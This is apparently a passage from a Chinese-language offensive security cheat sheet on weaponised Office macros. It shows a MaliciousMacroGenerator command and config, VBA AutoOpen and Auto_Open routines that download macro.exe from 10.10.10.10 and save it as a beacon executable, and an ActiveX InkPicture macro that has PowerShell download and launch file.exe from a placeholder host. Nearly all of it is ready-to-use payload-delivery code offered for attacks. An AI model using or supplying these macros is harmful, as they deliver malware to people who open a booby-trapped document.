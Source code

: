 ```ps1
git clone https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator
python MMG.py configs/generic-cmd.json malicious.vba
{
	"description": "通用命令执行有效载荷
规避技术设置为无",
	"template": "templates/payloads/generic-cmd-template.vba",
	"varcount": 152,
	"encodingoffset": 5,
	"chunksize": 180,
	"encodedvars": {},
	"vars": [],
	"evasion": ["编码器"],
	"payload": "cmd.exe /c C:\\Users\\Public\\beacon.exe"
}
```

```vb
Private Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Public Function DownloadFileA(ByVal URL As String, ByVal DownloadPath As String) As Boolean
    On Error GoTo Failed
    DownloadFileA = False
    '由于目录必须存在，这是一个检查
    If CreateObject("Scripting.FileSystemObject").FolderExists(CreateObject("Scripting.FileSystemObject").GetParentFolderName(DownloadPath)) = False Then Exit Function
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, URL, DownloadPath, 0, 0)
    '如果返回值为0且文件存在，则认为下载正确
    DownloadFileA = (returnValue = 0) And (Len(Dir(DownloadPath)) > 0)
    Exit Function

Failed:
End Function

Sub AutoOpen()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub

Sub Auto_Open()
    DownloadFileA "http://10.10.10.10/macro.exe", "C:\\Users\\Public\\beacon.exe"
End Sub
```

### DOCM - 基于ActiveX的（InkPicture控件，Painted事件）自动运行宏

转到功能区上的**开发者选项卡** `-> 插入 -> 更多控件 -> Microsoft InkPicture控件`

```vb
Private Sub InkPicture1_Painted(ByVal hDC As Long, ByVal Rect As MSINKAUTLib.IInkRectangle)
Run = Shell("cmd.exe /c PowerShell (New-Object System.Net.WebClient).DownloadFile('https://<host>/file.exe','file.exe');Start-Process 'file.exe'", vbNormalFocus)
End Sub
```
